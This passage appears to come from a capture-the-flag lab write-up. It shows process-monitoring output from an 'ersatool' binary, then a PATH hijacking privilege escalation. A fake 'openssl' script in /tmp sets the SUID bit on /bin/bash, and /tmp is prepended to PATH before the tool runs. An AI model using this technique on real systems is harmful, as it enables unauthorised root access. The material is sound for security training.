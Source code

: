 ```console
< [easyrsa]
31a31
> [sed]
29a30
> openssl ca -utf8 -in /opt/easyrsa/pki/reqs/asd.req -out /opt/easyrsa/pki/issued/asd.crt.bce8y473jX -config /opt/easyrsa/pki/safessl-easyrsa.cnf -extfile /opt/easyrsa/pki/extensions.temp -days 36500 -batch
31d31
< [sed]
27,30c27
< ersatool
< sh -c /opt/easyrsa/easyrsa build-client-full asd nopass batch
< /bin/sh /opt/easyrsa/easyrsa build-client-full asd nopass batch
< openssl ca -utf8 -in /opt/easyrsa/pki/reqs/asd.req -out /opt/easyrsa/pki/issued/asd.crt.bce8y473jX -config /opt/easyrsa/pki/safessl-easyrsa.cnf -extfile /opt/easyrsa/pki/extensions.temp -days 36500 -batch
---
> [ersatool] <defunct>
28a29
> sh -c /usr/bin/ersatool create 
29d28
< sh -c /usr/bin/ersatool create 
26,27d25
< ersatool
< [ersatool] <defunct>
26a27
> sh -c /usr/bin/ersatool create 
27d26
< sh -c /usr/bin/ersatool create 
```

The binary **openssl** is executed without using an absolute path while the function createCN is called, this could open the gates to a **path hijacking attack**. Let's create a **openssl** script that assigns SUID privileges to **/bin/bash** and export the **PATH** variable starting with **/tmp**.

```console
www-data@pki:/tmp$ echo -e '#!/bin/bash \nchmod u+s /bin/bash' > openssl
www-data@pki:/tmp$ chmod +x openssl
www-data@pki:/tmp$ PATH=/tmp:$PATH
www-data@pki:/tmp$ export PATH
```

Now let's execute **ersatool** binary and invoke **createCN** function.

```console
www-data@pki:/tmp$ ersatool
# create
create->CN=pwn
client
dev tun9
proto udp
remote vpn.static.htb 1194
resolv-retry infinite
nobind
user nobody
group nogroup
persist-key
persist-tun

remote-cert-tls server

cipher AES-256-CBC
#auth SHA256
key-direction 1
verb 3
```